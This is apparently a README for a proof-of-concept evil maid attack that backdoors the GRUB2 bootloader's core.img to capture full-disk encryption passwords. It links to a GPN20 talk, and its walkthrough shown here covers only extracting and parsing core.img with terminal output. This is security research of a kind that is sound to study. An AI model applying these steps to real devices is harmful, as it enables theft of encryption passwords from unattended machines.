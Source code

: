 ## PoC: Implementing evil maid attack on encrpyted /boot

TLDR: a proof of concept that backdoors stage 1.5 (core.img) of grub2 bootloader to dump the full disk encrpytion password to disk. I gave a talk about it at GPN20. You can find my slides in the slides directory. The recordings can be watchd [here](https://www.youtube.com/watch?v=5HCZXWfIk5Y) and [here](https://media.ccc.de/v/gpn20-32-poc-implementing-evil-maid-attack-on-encrypted-boot).

## walkthrough

1. Extract core.img

```bash
kmille@linbox:grub-luks file test-vm/disk.img                     
test-vm/disk.img: DOS/MBR boot sector
kmille@linbox:grub-luks python extract-core.py                                  
Cleaning working directory working-dir
Reading from disk image test-vm/disk.img
core.img starts at sector 1. Seeking 512 bytes
Size of core.img in sectors: 0xd5
Dumped extraced core.img to working-dir/core/core-extracted.img
kmille@linbox:grub-luks 
```

2. Analyze core.img

```bash
kmille@linbox:grub-luks python analyze-core.py working-dir/core/core-extracted.img
Let's analyse working-dir/core/core-extracted.img \o/
Cleaning working directory working-dir
Looking for diskboot.img in working-dir/core/core-extracted.img
 Trying 'modules/mods-debian11/diskboot.img'
Found modules/mods-debian11/diskboot.img at offset 0x0 (size 0x200)

Parsing diskboot.img in working-dir/core/core-extracted.img
grub_pc_bios_boot_blocklist: sector_next_image=0x2 size=0x6a segment=0x820

Parsing lzma_decompress.img in working-dir/core/core-extracted.img
lzma_decompress.img: decompressor_compressed_size=0xc82a decompressor_uncompressed_size=0x1d4d8

Looking for lzma_decompress.img in working-dir/core/core-extracted.img
 Trying 'modules/mods-debian11/lzma_decompress.img'
Found modules/mods-debian11/lzma_decompress.img at offset 0x200 (size 0xb20)

Decompressed data starts at offset 0xd20
Extracted compressed blob at offset 0xd20 to 'working-dir/modules-compressed.img'
Executing 'xzcat --lzma1 --format=raw < working-dir/modules-compressed.img > working-dir/modules-decompressed.img'
Decompressed blob to 'working-dir/modules-decompressed.img'

Parsed kernel_size (0x7244)
Parsing grub_module_info32 structure at offset 0x7244
grub_module_info32: magic=0x676d696d offset=0xc total_module_size=0x16294 
Dumped kernel to working-dir/kernel.img

Parsing modules starting at offset 0x7250
grub_module: type=0 size=0xbd4   md5=a49026589c78edfed916e03dcfaa2b0e filename=modules/mods-debian11/fshelp.mod
grub_module: type=0 size=0x17f4  md5=8d79d6c2706ddde587fea93830ea0c21 filename=modules/mods-debian11/ext2.mod
grub_module: type=0 size=0x274c  md5=f197920b4ed3181ca118709b577b5405 filename=modules/mods-debian11/diskfilter.mod
grub_module: type=0 size=0x1c00  md5=0dde71eacabac0ef0870a15690017e74 filename=modules/mods-debian11/lvm.mod
grub_module: type=0 size=0x1378  md5=1df60ceeb4f1fdf7824c9e2ae686edff filename=modules/mods-debian11/crypto.mod
```